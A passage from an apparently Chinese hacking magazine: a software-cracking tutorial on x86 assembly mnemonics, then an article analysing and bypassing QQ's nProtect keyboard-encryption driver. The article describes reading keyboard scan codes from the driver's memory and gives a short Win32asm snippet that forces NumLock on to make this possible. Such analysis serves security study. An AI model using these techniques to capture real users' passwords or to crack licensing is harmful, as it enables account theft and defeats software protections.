这个 CrackMe 是系列中的第一个程序，所以难度不是很大，但对入门非常有用。通过对它的分析，我们了解了什么是名称混淆，怎么样利用 Reflector 的分析功能定位关键代码，以及最后重用原程序的代码来编写注册机。反编译软件毕竟是工具，不能保证它翻译出来的代码始终正确，这时就要运用我们的程序设计知识来辅助分析了。下一次我们会接着分析该系列的第二个 CrackMe，难度又有所增加。敬请大家期待下期黑防！

适合读者：破解爱好者

前置知识：汇编语言

#### 小菜学破解之四：汇编助记符与算法分析基础

文／图 laoxuetong

汇编，现在是一个被混淆了的概念。历史上汇编是一个动词，指的是将源代码编译成机器码的过程，得到的就是汇编代码。这些代码能够被计算机所识别，而作为计算机的主人再去看它时却似云中雾里，非常的吃力。人们为了在识记理解的方便性与机器码的晦涩难懂之间寻找一个平衡点，发明了用英文的对应功能描述的缩写来描述相应的指令，并且这些缩写的英文与一个或几个字节的机器码指令一一对应，于是就形成了机器码的助记符——汇编助记符。当我们要编写一个执行某种功能的程序段时，就不必去记住那些难记的机器码，只需写上对应的汇编助记符即可。很显然，劳动强度大大降低，而且也便于检查和交流。

当然，问题也就随之而来，计算机却又不知道你在要求它干什么了。计算机不知道，人们可是知道这种情况的。为了解决这个问题，于是特地为它们请了一个翻译，在人和机器码之间进行协调。当需要告诉计算机你给我干些什么时（汇编助记符 -> 机器码），请汇编程序（现在称为编译程序）做翻译，将汇编助记符转换为机器码；常用的软件编程平台就属于这种类型。当需要知道计算机你是怎么干的时候，就请出反汇编程序，将机器码翻译为汇编助记符，便于分析理解。常用的跟踪调试软件就属于这种类型。

当然，现在的一些编程平台中也集成了功能不大的逆向转换功能模块。比如在 VC 中编写软件，调试时就可以看到汇编助记符。可在汇编助记符状态下实施调试（不能修改），只需要切换到对应窗口即可。在 OD 中跟踪软件，如果需要修改代码，只需要输入相应的汇编助记符，确定后，机器码也跟随修改，起到汇编程序的作用。

在使用 OD 跟踪调试软件时，我们不关心机器码（事实上我们也看不懂机器码），只关心汇编助记符。而这些助记符现在已被人们偷换概念（知识更新啊）叫做汇编代码了——其实机器码才是真正的汇编代码。混淆就混淆了罢，只要彼此在交流时不犯糊涂就可以了。

##### 识别汇编指令

汇编指令是很多的，作为普通爱好者，要全部都记住比较困难。当年我在学习 Z80 CPU 指令系统时，汇编指令就有几百条。现在主要的是 x86 指令系统，我没系统学过，指令有多少不得而知，肯定不会少吧？而作为加解密爱好者，记住和理解常用汇编指令是非常必要的，不然怎么玩？今天我们就来个急用先学，按需选学，挑出一些重要的进行学习。

###### 1）跳转类

跳转类指令就是指跳过一些代码的执行，转而去执行另外的代码的指令，主要分为条件跳转和绝对跳转。

绝对跳转——无论发生的情况如何，只要运行到这条指令，跳转就绝对发生。这条指令类似于编程中的 goto 指令，但并不与其等价。很多的源代码经过编译之后都会产生绝对跳转，如 if……else……endif，case 等等。这类指令的助记符总是以 JMP 作为前缀，后面跟随的是要跳去的目标地址。然而，这类指令的机器码未必是相同的（地址除外），这是因为编译时编译程序会根据跳转的距离长短来选择指令的形式，主要分为长跳和短跳两种，例如：

| 地址 | 机器码 | 汇编 |
|---|---|---|
| 004F95F2 | EB 03 | JMP SHORT 脱壳… |
| 004F95F4 | 6A 0A | PUSH 0A |
| 004F95F6 | 58 | POP EAX |
| 004F95F7 | 50 | PUSH EAX |

上面的代码为一个短跳，软件执行到 004F95F2 时，直接跳转到 004F95F7 这一行代码处。跳转距离较短，故称为短跳，其汇编助记符会附加 SHORT 标识符，代码特征为 EB，跳转距离为 3。这里的 3 不是三行，而是三个字节，属于相对寻址方式。什么是相对寻址呢？举个例子，有一高一矮两个人，假设相差无几。现在只有一个水平尺（无刻度只有一个气泡的，搞建筑用的），你能知道他们究竟是谁高谁矮吗？可能有人会说，那还不容易，让两人站在一起，拿水平尺一量不就知道了？……此时就要先搞出一个基准，才能进行比较的问题了。

相对寻址问题就是要相对于某个基准来谈问题。软件在执行过程中，先要读取指令机器码并对其进行分析，然后才能确定怎么做。……就可以理解相对寻址的概念。

假设软件执行了一序列指令后，停留在 004F95F2 处……“004F95F4+03=004F95F7”，我就到 004F95F7 去了。

这就是相对寻址，它并不直接知道该跳向何处，只知道我现在在哪里。要跳转的距离就从这里算起（相对于此地）——基准啊。所以，相对寻址地址可以看作是“EIP+偏移量=目标地址”。

```asm
EB 03        JMP SHORT 004F95F7
6A 0A        PUSH 0A
58           POP EAX
50           PUSH EAX
FF75 9C      PUSH DWORD PTR SS:[EBP-64]
```

图1。

我们再看看下面的代码。

```asm
004F934D  -  E9 A9000000   JMP 004F93FB
004F9352  -  8B75 14       MOV ESI, DWORD PTR SS:[EBP+14]
```

这段代码也是绝对跳转，与上面的对应位置比较，有明显的不同。一是汇编助记符中没有标识符 SHORT，表明这里不是短跳，跳转距离较大。

算一下：004F93FB-004F934D=AE。AE 就是十进制的 174……由此我们可以得到结论：短跳机器码为 EB，长跳机器码是 E9。短跳偏移量是 1 字节，长跳偏移量是 4 字节。

那么这里又是怎么计算跳转地址的呢？按照刚才的计算方法算一算：004F9352+000000A9=004F93FB。……除了相对寻址方式外，还有一种绝对寻址方式。

修改跳转是破解爱好者常做的工作……多余的恰好 3 个字节，按默认用 3 个 90 填充。

- 条件跳转——满足一定条件才会发生的跳转。
- 这类跳转可以按照判断类型进行分类：
  - 是否相等类
  - 大小判断类

| 指令 | 含义 |
|---|---|
| JE/JZ | 等于转移 |
| JNE/JNZ | 不等于转移 |

它们主要（不完全是）用于判断是否相等的，就其逻辑关系来说，这类指令形成配对关系。

| 指令 | 含义 |
|---|---|
| JA/JNBE | 不小于或不等于转移 |
| JAE/JNB | 大于或等于转移 |
| JB/JNAE | 小于转移 |
| JBE/JNA | 小于或等于转移 |

以上四条条件跳转指令出现在对无符号整数进行大小判断时，根据判断结果确定是否进行跳转。

| 指令 | 含义 |
|---|---|
| JG/JNLE | 大于转移 |
| JGE/JNL | 大于或等于转移 |
| JL/JNGE | 小于转移 |
| JLE/JNG | 小于或等于转移 |

以上四条条件跳转指令也是用于判断大小的，但这时的数据类型为整数（包含符号）。以上这两类条件跳转指令的形成，不是由软件编程人员设定的，而是编译系统根据数据类型来确定是取舍的，我们只需要知道就可以了。

条件跳转类指令有一个共同的特征，是否跳转依赖于标志寄存器的值。作为复习，我们来看看图2。通常我们只关心靠左侧的两列。第一列为寄存器标识，第二列为寄存器中的结果，其值只取 0 和 1。跟踪时，可根据需要在第二列的对应位置双击来修改其值，以确定是否让其跳转发生，不用修改跳转指令。

```text
C 0  ES 0023 32bit 0(FFFFFFFF)
P 1  CS 001B 32bit 0(FFFFFFFF)
A 0  SS 0023 32bit 0(FFFFFFFF)
Z 1  DS 0023 32bit 0(FFFFFFFF)
S 0  FS 003B 32bit 7FFD7000(FFF)
T 0  GS 0000 NULL
D 0
O 0  LastErr  ERROR_FILE_NOT_FOUND
```

图2

需要注意的是，标志寄存器的值只对条件跳转起作用，对绝对跳转无效。另外，同样存在相对寻址的问题，参考绝对跳转的描述。还有一些条件跳转指令，一般不反映软件编程人员的意愿，是编译程序为自己的需要设置的，学习时可以不予考虑。绝对寻址、相对寻址与绝对跳转、条件跳转分属于两个不同的概念，不可混淆。前者是针对指令结构而言，后者是针对指令的效果而说的。

###### 2）数据移动类

典型的移动数据指令是 MOV，用于读取或者保存数据。虽然汇编助记符都是 MOV，但其组合形式多种多样。就其数据长度来说，有 byte（字节）型的，有 WORD（双字节）型的，有 DWORD（四字节）型的，这些都在汇编指令助记符中有所表示。例如：

```asm
004010EC  MOV ECX,DWORD PTR SS:[EBP-14]
005C32C2  MOVZX EAX,BYTE PTR DS:[EAX+ESI-1]
```

从寻址方式来看，有直接寻址方式、立即寻址方式、间接寻址方式、寄存器寻址方式等等，门类较多。传递的可以是数据，也可以是地址。

另外，一些移动数据的指令主要是堆栈操作，作为暂存数据之用，常常成对出现。这些指令的助记符中包含有 PUSH、POP 等字符。如：

| 指令 | 含义 |
|---|---|
| PUSH | 把字压入堆栈 |
| POP | 把字弹出堆栈 |

以上两条指令将某种数据放到堆栈的顶部，或者将堆栈顶部的数据取出来。

其中 PUSH 指令必须要指明数据的来源，可以是直接数、寄存器中的数据或者内存中的数据，也可以是某个内存的地址。而 POP 指令通常也需要指明目的位置，以便将数据送入到相应的地方。这两条指令常出现在函数调用前，给函数传递参数。

| 指令 | 含义 |
|---|---|
| PUSHAD | 把全部的通用寄存器的内容压入堆栈 |
| POPAD | 取出保存在堆栈中的全部的通用寄存器的内容 |

以上两条指令通常称之为保护现场和恢复现场。意思是将现在所有通用寄存器中的内容保存到堆栈中，程序可能要执行其它操作，现场的数据可能被破坏，后面还要用呢，先统统都保存起来。待到那个操作完成后，再将保存的数据恢复到寄存器，继续执行既定的工作。这两条指令常出现在函数体中，用于恢复函数调用前的状态，处在函数体的首尾部分。

```asm
LEA: 装入有效地址
```

这条指令主要用于读取数据的地址，不过也常用于对数据的计算，跟踪时应注意观察其真实的作用。以上这些指令基本上是由编译器产生的，除了嵌入汇编外，不直接反映程序作者的编程意图。

###### 3）运算类

运算类指令主要分为三种类型，分别是算术运算指令、逻辑运算指令以及浮点运算指令。

算术运算指令只能对整数类型的数据进行运算，基本上局限于加、减、乘、除四种形式，复杂的数学运算编译系统会进行算法分解而成为上述形式的排列组合。一些新手往往说不清楚软件中的算法问题，其症结也就在于此。从结果的表现来看，算术运算不等同于数学老师所教授的那些东西。所有的数都是正数，其和为负数，或者是和比某一个操作数还小。

逻辑运算主要用于位操作（二进制），用普通的数学概念常常不易理解。要理解这些运算结果的形成，需要将数据转换为二进制，以便于观察。

浮点运算指令用于浮点数的计算，说白了就是用于实数的计算。浮点运算指令较多，除了有类似于整数的加减乘除指令外，还涵盖了中学里的全部基本函数，使得数学运算方面的功能大为扩展。

####### （1）算术运算指令

ADD：整数的加法。结果仅为四个字节（常称为 32bit），多余的部分自动丢失。如果不懂得数据结构，对运算的结果有时难于理解。

```text
ADC  带进位加法（这里的进位即为标志寄存器中的数据）
INC  加1，每执行一次自动加1，常用于做计数器使用。
```

以上为常用的加法运算指令。

```text
SUB  减法，模式同加法运算。
SBB  带借位减法。
DEC  减1，也是常用于做计数器。
```

以上为常用的减法运算指令。

```text
NEG  求反（以0减之）。
CMP  比较（两操作数作减法，仅修改标志位，不回送结果）。
MUL  无符号乘法。
IMUL 有符号乘法。
```

以上为常见的整数乘法指令，但也有多种表现形式，例如可以是两个操作数，也可以是三个操作数等等，结果总是保存在靠近指令标识符的位置，跟踪时注意学会观察数据的来龙去脉。

```text
DIV   无符号除法。
IDIV  整数除法。
```

以上两条为除法运算指令。大多数情况下，使用这个指令时，EAX 中的数据为被除数，ECX 中的数据为除数。执行完后，EAX 中的数据为商，EDX 中的数据为余数。在执行这个指令前，一般会执行指令 CDQ（扩展），一般情况是给 EDX 清 0。

####### （2）逻辑运算指令

这里的逻辑概念不能等同于数理逻辑。数理逻辑运算的结果只有两个，非真即假，在电脑中的表现就是非 0 即 1。典型的逻辑连接词是与、或、非。首先我们必须知道，逻辑运算的概念是针对二进制来说的。要很好地理解逻辑运算，必须将数据转化为二进制数据进行观察。逻辑运算是按位（bit）进行的，所以我们这里的逻辑运算实际上是对数据位进行操作。

```text
AND  按位求与运算。
OR   按位求或运算。
XOR  按位求异或运算。
NOT  按位取反。
```

以上四条指令按位运算属于典型的数理逻辑型运算，其运算结果可以按照逻辑真值表给出。这里我就不再列表说明，如果不懂，尽快补习之。

```text
TEST  测试（两操作数作与运算，仅修改标志位，不回送结果）。
```

这个测试运算指令貌似简单的逻辑运算，其实是一个复合型的运算，其效果相当于 C 语言中的“==”运算符，或 VB 中的“<>”运算符等等的逻辑判断。

```text
SHL  逻辑左移。
SAL  算术左移（=SHL）。
SHR  逻辑右移。
SAR  算术右移（=SHR）。
```

以上左右移位指令也是按位进行的。其运算效果是，右移一次相当于整除 2，左移一次相当于乘 2。

```text
ROL  循环左移。
ROR  循环右移。
RCL  通过进位的循环左移。
RCR  通过进位的循环右移。
```

以上两类运算指令相当于环形移动 bit 流，所不同的是后两个运算的操作数包含了标志位寄存器中的数据。这在一定程度上包含了上一步的运算结果在内，不注意这一点可能会感到不知所以然。

####### （3）浮点运算指令

浮点运算指令较多，大体可分为数据移动类、算术运算类、函数类等。浮点运算是针对实数运算的，所以不存在逻辑运算指令。浮点运算指令助记符前缀字符 F 以示与整数运算相区别；后面的部分与整数运算指令类似，可以结合着记忆和理解。

浮点运算有专门的寄存器，在 OD 中这些寄存器中的数据均以实数形式显示，易于观察。浮点数在软件中不是以实数形式保存的，而是以二进制形式保存的，这给我们的识别带来了困难。这时要注意 FLD 指令的操作，观察操作后浮点寄存器中数据的变化（红色显示）来理解数据是什么。

####### （A）数据移动类

数据移动的典型指令助记符形式如 FLD、FST，可分别理解为读取数据和暂存数据。一般情况下 FLD 包含有数据类型转换操作动作。浮点运算过程中间结果均不会在通用寄存器中出现，只出现在浮点寄存器中。所以在进行跟踪时，只须注意浮点寄存器就可以识别和理解其意义了。浮点指令包含了一组读取特殊常数指令，分别如下：

```text
FLDZ   读取常数 0.0
FLD1   读取常数 1.0
FLDPI  读取常数 π
FLDL2T 读取常数 log₂10
FLDL2E 读取常数 log₂e
FLDLG2 读取常数 log₁₀2
FLDLN2 读取常数 ln2
```

取得的结果均放入浮点寄存器中。

## B）算术运算类

算术运算类指令的助记符典型形式如 FADD（加法）、FSUB（减法）、FMUL（乘法）和 FDIV（除法）。其操作数是什么，可通过观察 OD 的信息栏（代码区与转存区中间）得到。

## C）函数运算类

| 指令 | 说明 |
|---|---|
| FSQRT | 平方根运算 |
| FSCALE | 计算 2^x |
| FPREM | 求余（求模）运算 |
| FRNDINT | 取整（四舍五入） |
| FABS | 求绝对值 |
| F2XM1 | 计算 2^x-1 |
| FYL2X | 计算 y*log2(x) |
| FCOS | 余弦函数 cos |
| FPTAN | 正切函数 tan |
| FPATAN | 反正切函数 arctan |
| FSIN | 正弦函数 sin |
| FSINCOS | sincos 函数 |
| FYL2XP1 | 计算 y*log2(x+1) |

这里的一些函数指令可能让我们感到不可理解：既有了 2^x，何必要 2^x-1？有了 y*log2(x)，又何必要 y*log2(x+1)？按我们的理解确实如此。但是你理解 CPU 吗？它可是讲求计算速度的。你又理解编译系统吗？它可是要进行算法优化的。所以，这些函数一般不是你写给 CPU 看的，而是编译系统写给 CPU 看的。我们要看的是综合效果，领会编程人员的意图，也就是作者要干什么，这才是真正的算法分析。

关于浮点运算指令的操作数描述，网上的一些资料是错误的。这个问题，我在三年前就跟 Ivan 先生谈论过，可能是由于……为了……，他笑而不答，我也就忘记了。

汇编指令多多，不是一时半刻能说完的，也不是一句半句能说得清楚的。来个首尾呼应，捡些常用的学习一下，各位还要在“工作”中继续深化才是。

##### 算法解析

软件作者写的代码，通常称之为源代码。源代码经过编译系统编译后，产生汇编机器码（二进制数据）。机器码难于记忆，不易辨认。于是跟踪调试时，需要将其翻译为汇编助记符，让人看起来舒坦、明白。于是乎，作者的意图在这颠来倒去的转换中发生了很多变化，甚至是根本性的变化，变得不是庐山真面目了。本来是高中的数学计算问题，经过这么一倒腾，大学毕业了有时还说不清。所以就有了很多很多的算法分析之类的话题，引得无数爱好者茶不思饭不想，彻夜难眠。思来想去，都是那编译器惹的祸！

且慢，砸烂了，我今天说什么？今天我们要以一些软件的汇编代码为例，说说汇编代码应该如何理解。

###### 【例1】

```asm
006E0F55    TEST EAX,EAX
006E0F57    JNZ SHORT 006E0F5E
```

从英文词义上看，TEST 为测试，意为测试 EAX 和 EAX。查汇编指令表可知，TEST 需要两个操作数，但不一定是 EAX，也不一定都是寄存器的值。这里的 TEST 可理解为按位“与”运算并设置标志位，不改变操作数本身。JNZ 则根据标志寄存器结果进行跳转。

因为“与”运算按 bit 位进行，EAX 是 32bit 寄存器。TEST 可视作先按位与，再对结果做归并判断；只要有一 bit 不为 0，测试结果就非 0。因此这里 TEST 的作用就是判断 EAX 中的数据是否为 0；不为 0 则跳转，否则不跳。

```c
if XX==0 then
    ......
else
    ......
endif
```

或者：

```c
if(XX==0)
{
    {......}
}
else
{
    {......}
}
```

软件中很多地方会出现这种类型的语句，例如判断注册名、注册码是否输入、注册码是否正确等。当然，判断是否相等也可以使用 CMP（比较）指令来实现。这是一种自测试方式，也可以进行不同数据的测试，例如：

```asm
004BE625    TEST DL,40h
004BE628    SETA AL
004BE62B    MOV BYTE PTR DS:[EDI],AL
```

这里 DL 是 EDX 的低 8bit 位（一个字节）。整个指令的意思是，检测 DL 中的 b4，根据检测结果在 AL 中设置标志，最后将检测结果保存起来。那么，怎么处理这里的计算方法呢？

假设 DL=00011111，因为 40h=00010000，所以 DL and 40h=00010000，很显然 b4=1，因此应该有 AL=1。知道了需要这样的结果后，可以采用下列代码来实现。

```c
if XX<>0 then
  flag=1
else
  flag=0
endif
```

或者更简单的形式：

```c
flag=(XX!=0)
```

###### 【例2】

```asm
004BEA01  AND EBX,0FFh
```

类似于下面的代码大家应该见得很多吧？仅仅理解为求“与”运算合适吗？其实，这种运算的作用是将 EBX 的高 24 位清 0，并保持低 8 位数据不变，起着“屏蔽”的作用。所以我在很多算法分析文章里都直接称之为屏蔽。不过类似于这样的代码并不应该都称之为屏蔽，例如：

```asm
004BEA01  AND EBX,00DCh
```

它的作用实际上是从指定位置（bit）提取数据，去掉无关的内容，这些内容并不是连续 bit 位，所以这里应当称之为“萃取”。

###### 【例3】

```asm
MOV EDX,EAX
SHL EDX,8
SHR EAX,18h
OR EAX,EDX
```

按常规，“SHL EDX,8”是将 EDX 中的数据按 bit 流左移 8 次（实际上是一次性完成的，这里权当比喻）；“SHR EAX,18h”则是右移 24 bit，最后将所得结果求“或”。

这种理解也未必不行，但对代码的分析过于孤立。假设开始时 EAX=EDX=12345678h，执行“SHL EDX,8”后，EDX=34567800h，而执行“SHR EAX,18h”后，EAX=00000012h，再执行“OR EAX,EDX”运算后，EAX=34567812h。结果是原来处于高位的数据跑到低位了，而低位数据却跑到较高位置了，这就是循环移位的作用。

因此，上述 4 行代码的共同作用就是循环移位（高级语言中没有类似的指令）。一句话，左（向左）循环 8bit 就概括了这部分算法。

循环吗？为什么？

###### 【例4】

```asm
MOV ECX,0FFh
XOR EDX,EDX
DIV ECX
```

或者：

```asm
MOV ECX,0FFh
CDQ
IDIV ECX
```

这样的代码是在干什么的？这两段代码形式不同但作用相同——作除法。不过你真的理解准确了吗？

这两段代码中，“XOR EDX,EDX”与 CDQ 的作用在大多数状态下是相同的，都是给 EDX 清 0。作除法时，一般被除数放在 EAX 中，除数放在 ECX 中。整除指令会同时得到商和余数，其中商仍放在 EAX 中，余数放在 EDX 中，所以运算前要清空 EDX。

这似乎没有必要，但微软坚持要这么做。问题还没有结束，上面的代码真的是作除法吗？不尽然。这段代码的具体作用，要看后续操作选用什么数据。如果后续操作使用的是 EAX 中的数据，这段代码应理解为作整除法；如果后续操作使用的是 EDX 中的数据，则应理解为求余（求模）运算（即 VB 中的 a Mod b，或 C 语言中的 a%b）。一些代码的解读要根据前后呼应关系来确定。

###### 【例5】

```asm
00417873  XOR EAX,EAX
00417875  MOV CL,AL
00417877  SHL CL,1
00417879  DEC CL
0041787B  MOV BYTE PTR SS:[EBP+EAX+90],CL
00417882  INC EAX
00417883  CMP EAX,3D
00417886  JB SHORT UEDIT32.00417875
```

这段代码在干什么？从这段代码的运作情况来分析，EAX、CL 中的值在发生改变，而 EBP 中的值始终没有被改变。EAX 中的值每次循环后都被加 1，CL 中的数据由 EAX 中的值计算而来，计算结果的保存位置也与 EAX 的变化同步。故可得出结论：EAX 作为计数器使用。假设某个时刻，EAX 的值为 n，则：

```asm
00417875  MOV CL,AL
00417877  SHL CL,1
00417879  DEC CL
```

这三行代码的作用就是计算 2n-1。很显然，2n-1 为奇数，所以这段代码的作用就是用连续的奇数去填充一个数组。0x3D=60，故这个数组的大小为 60，且第一个数据为 1。因此，这段代码的算法分析就不应该逐句分析，应该用综合叙述为佳。

###### 【例6】

```asm
005C039F  MOV EDX,EAX
005C03A1  SHL EDX,8
005C03A4  MOV BL,BYTE PTR DS:[ESI]
005C03A6  SHR EAX,18h
005C03A9  XOR AL,BL
005C03AB  MOV EAX,DWORD PTR DS:[EAX*4+5DF6A0]
005C03B2  XOR EAX,EDX
005C03B4  INC ESI
005C03B5  DEC ECX
005C03B6  JNZ SHORT unpack.005C039F
```

孤立地分析上述代码有些困难，应该结合动态跟踪来进行。

首先，我们注意到，EAX 中的值参与了计算。一个回合下来，计算结果仍保存在 EAX 中。所以，输入的参数进入了 EAX，输出结果就是 EAX 中的值。

其次，“MOV BL,BYTE PTR DS:[ESI]”一句是按照字节读取，后面还有一个“INC ESI”语句。因此，ESI 中应该保存着字符串类型的数据，ESI 就是字符串地址。

其三，“MOV EAX,DWORD PTR DS:[EAX*4+5DF6A0]”一句是按整型方法读取数据，并且存在常数地址 5DF6A0。结合“SHR EAX,18h”和“XOR AL,BL”的结构，可知这是查表过程。数据表共有 256 项（0~255），该语句常称为查表，属于变址寻址方式。

有了上面的分析，这段代码的计算意图就清楚了。根据字符串长度确定循环次数，以 EAX 为临时数据 tmp，利用字符串当前字节与 tmp 高位字节异或后查表，再与 tmp 左移结果异或，循环得到新的 tmp。

```c
for(i=0;i<n;i++)
    tmp=(tmp<<8)^b[(tmp>>24)^str[i]];
```

简洁吧？上面的代码既可以用于计算注册码，也可以用于产生校验值。如果逐行解释，虽然也能看懂，但是不是很烦？

###### 【例7】

```asm
005C300C  PUSH EBX
005C300D  MOV ECX,EAX
005C300F  MOVZX EBX,CX
005C3012  MOV EAX,EBX
005C3014  ADD EAX,EAX
005C3016  LEA EAX,[EAX+EAX*4]
005C3019  IMUL EBX,2
005C301B  MOV EDX,EBX
005C301D  SHL EDX,3
005C3020  LEA EDX,[EDX+EDX*2]
005C3023  ADD EAX,EDX
005C3025  ADD EAX,7
005C3028  MOV ECX,0FFh
005C302D  XOR EDX,EDX
005C302F  DIV ECX
005C3031  MOV EAX,EDX
005C3033  POP EBX
005C3034  RETN
```

上面的代码我加了注释，其运算过程就是计算给定变量的二次函数值（注意与标准二次函数的区别）。其函数原型为：f2(x)=(10*x^2+24*x+7) mod 255。

这里我提出一个思考题，如果不作模运算，这个函数在程序中是单调函数吗？加了求模运算呢？关于这个函数问题的范围，我还将在另文中加以讨论，这里就不多作说明了。

类似的代码赏析不胜枚举，练好算法分析，对大家的技术提高将大有好处。即使是你今后走所谓的爆破之路，如果你善于编程，分析别人的软件也将有助于编程能力提高。此次我们就侃到这里了，咱们下回见。

适合读者：破解爱好者  
前置知识：Win32asm


## 笨人分析与破解QQ键盘加密保护的反 nProtect 技术

文/图 武汉大学计算机学院信息安全 糊彪

本文对 QQ 的 nProtect 密码安全输入控件保护技术进行了分析，并针对其破解思路进行了描述和实现，同时还给出了关键代码分析。实验表明，本文给出的方法可以有效地截获 nProtect 密码安全输入控件中的密码，最后还给出了相关的防护思路和措施。

##### 相关背景

- 本人由于兴趣爱好，只是从技术角度来进行研究，并非有意进行破坏，而且安全与威胁本来就是互进互促的；
- 任何利用该成果编写的盗号程序一概与本人无关，同时也希望腾讯公司能够对此重视，尽快升级或打补丁；
- 由于本人水平有限，错误之处希望大家予以指正。

> “从 QQ2005 Beta3 开始，QQ 采用了国际先进的 nProtect 键盘加密保护技术，在启动 QQ 后，键盘加密保护系统会自动启动，此时您会看到 QQ 登录的密码框右侧出现了一把金色的安全锁，当您敲击键盘输入密码时，键盘加密保护系统会自动对键盘信息进行实时加密。这样即使用户的 PC 中有病毒、键盘记录程序，也难以窃取用户的密码输入。”

据本人所知，腾讯对该保护系统升级过多次，从目前情况看，该技术已经比较完善，基本上可以防止目前所有的盗号软件，所以在 QQ2007 Beta1 版本中，腾讯也没有对此进行升级。

## QQ键盘加密保护分析

QQ 键盘加密保护主要依赖的是 QQ 目录下的 3 个文件，分别是 npkcrypt.sys、npkcusb.sys 和 npkcrypt.vxd，其中起主要作用的是 npkcrypt.sys。在以前的版本中，有些盗号木马会对这几个关键文件进行删除或改名，然后再修改密码框右边的“红叉小金锁”图标为正常的“小金锁”以达到欺骗目的。不过 QQ 版本升级之后会出现软键盘提示，告知有可能中木马病毒，就算只是进行文件修改也会出现同样的问题，因为 QQ 每次运行都会对这些文件进行完整性校验，所以这种方法在目前来说没有多大作用。

对于一般的密码框，我们只需要用普通的键盘钩子就可以记录按键信息，但是如果你用这种方法监视 QQ 密码框，那你是不会得到正确结果的。QQ 键盘加密保护是在密码框获得焦点之后才启动的。我试着用 Spy++ 来监视密码框的 Windows 消息，当鼠标悬浮在密码框之上时，会有 WM_TIMER 消息，一旦获得焦点之后，就没法捕捉到任何消息了。最后的一个消息为 WM_SETFOCUS，显然是进行了处理。


无奈之下，我用 Win32Dasm（或者其他静态反汇编软件）打开了 npkcrypt.sys 进行分析（注：由于版本不同，npkcrypt.sys 文件也有所变动，我只以 QQ 2007 Beta1 版本的 npkcrypt.sys 进行分析）。

大小为 25,074 字节。在 npkcrypt.sys 的引入表中可以发现引用了 HalGetInterruptVector 函数，该函数的目的是获取中断向量号；同时还发现 HalBeginSystemInterrupt、HalEndSystemInterrupt 等与中断有关的函数。由此我们可以猜测该保护系统一定是在中断上做了手脚，在键盘钩子获取信息前就已经做了处理。

- 密码框获得焦点保护系统才启动，失去焦点后又还原；
- 保护系统是在中断上做手脚的。

于是我打开 SoftICE，在密码框获取焦点之前查看了 IDT 表（中断描述符表），发现中断服务程序地址都是 80****** 开头的；当 QQ 密码框成为焦点后，再调出 SoftICE 查看 IDT 表，发现某一号中断（我本机是 0x93）的中断服务程序地址改为了 F8******，而且 Owner 为“npkcrypt!.text+0191”，也就是说中断服务程序地址为 npkcrypt 模块 .text 节偏移 0x191 开始的位置……


> 图2 系统模块列表

为了方便，我依然使用 Win32Dasm 阅读静态反汇编代码。.text 节的 Offset 为 0x2C0，则入口点为 0x2C0+0x191=0x451，即文件偏移 0x451 处为中断服务程序的入口……通过阅读反汇编代码以及用 SoftICE 下断点测试，大体上了解了该中断服务程序的作用，如图3所示。简单点说，就是将键盘扫描码读出来后，再模拟键盘输入，发送一个 00 错误数据给键盘。


> 图3 QQ密码保护的关键技术流程

在这里有必要提一下，与键盘相关的最重要硬件有两个：一个是 Intel 8042 芯片，位于主板上，CPU 通过 I/O 端口直接与这个芯片通信，获得按键扫描码或者发送各种键盘命令；另一个是 Intel 8048 芯片或者其兼容芯片，位于键盘中，这个芯片主要作用是从键盘硬件中得到被按的键所产生的扫描码，与 8042 通信，控制键盘本身。CPU 通过读写端口，可以直接把 8042 中的数据读入到 CPU 的寄存器中，或者把 CPU 寄存器中的数据写入 8042 中。直接打交道的是 8042 芯片，一个 0x60 数据端口和一个 0x64 命令端口。

## QQ键盘加密保护破解

从图3可知，我们可以从以下几个地方下手进行破解。

1) 在该中断服务入口处将其跳转到原中断服务程序。

经本人测试，这样虽可以绕开该中断服务，但还是获取不了正确的按键信息，可能是在键盘驱动里做了手脚。当输入数字或者小写字母的时候，键盘钩子总是得到加密后的数字或小写字母（其加密方法就是简单的代替密码），其他符号包括大写字母都能正确获得，而且每次打开新的 QQ 登录窗口总会随机选择一套新的密文表。得到的密码为加密后的密码。于是我用 SoftICE 在 0x60 端口地方下断点，发现在密码框中断到的地址和不在密码框中断到的地址不一样，很可能就是在键盘驱动里做了修改，所以前面提到过修改 npkcrypt.sys 文件没多大作用，就是因为还有这层保护。如果在图3所示的全局变量中，在 0x45D0 将中断向量号修改为其他系统保留的，做一个乾坤大挪移也是一样的效果。这种方法本文没有深入研究，事实上相比之下，后几种方法来得更简单。以下是我记录的几套密文表，有兴趣的读者可以研究一下。

###### 第一份数据

| 字段 | 内容 |
|---|---|
| 明文 | 0123456789 abcdefghijklmnopqrstuvwxyz |
| 密文 | 2513970684 cvkzguanldhetpsbyfrxinwojq |

###### 第二份数据

| 字段 | 内容 |
|---|---|
| 明文 | 0123456789 abcdefghijklmnopqrstuvwxyz |
| 密文 | 9374586012 jpgdbrqsuvinnywafckzehotix |

###### 第三份数据

| 字段 | 内容 |
|---|---|
| 明文 | 0123456789 abcdefghijklmnopqrstuvwxyz |
| 密文 | 1843765209 rjvlvgshpfwdeuctokzbmaqxn |

2）直接读取该中断服务程序保留的扫描码值。如图3所示，当 NumLock 键处于打开状态的时候，该中断服务程序会将键盘扫描码的值保存在 0x49A0 处（即 npkcrypt.sys 模块首地址偏移 0x49A0）。这种方法的关键之处在于 NumLock 键是否打开。如果是关闭状态，那我们没办法获取按键扫描码，不过可以利用程序在初始化的时候将 NumLock 键打开。但如果中间 NumLock 键被关闭，则后面的按键信息还是无法获取。具体实现代码如下（由于我是用 Win32asm 写的测试程序，所以下面所有参考代码均为 Win32asm 代码）。

```asm
;; 如果 NumLock 关闭则打开
invoke GetKeyState, VK_NUMLOCK
and ax, 0001h
.if ax == 0
    invoke keybd_event, VK_NUMLOCK, 0, 0, 0
    invoke keybd_event, VK_NUMLOCK, 0, KEYEVENTF_KEYUP, 0
.endif
```

有了这段程序，剩下的任务就是读取 0x49A0 的扫描码了。它是个相对地址，要取得它的绝对地址有 2 种方法：一是用 ZwQuerySystemInformation 函数取得 npkcrypt.sys 模块首地址，然后加上该相对地址；二是当焦点处于 QQ 密码框中时读取 IDT 表被修改的中断描述符偏移量（即中断服务程序入口地址，因为该中断服务程序处于基址为 0x00000000 的 ring0 级代码段中，所以偏移量就是入口地址），将其与 0xFFFFF000 相与后再加上该相对地址。计算出绝对地址后就可以读取该地址的值了，也就是想要获得的键盘扫描码。

到这里，大家可能会有几个疑惑：

- 如果希望当用户按下键盘的时候就把扫描码取出来，那应该怎么做呢？
- npkcrypt.sys 模块修改的是哪一号中断向量？应该怎么获取该中断向量号？（注：这里提到的是保护模式下的中断向量而非实模式下）
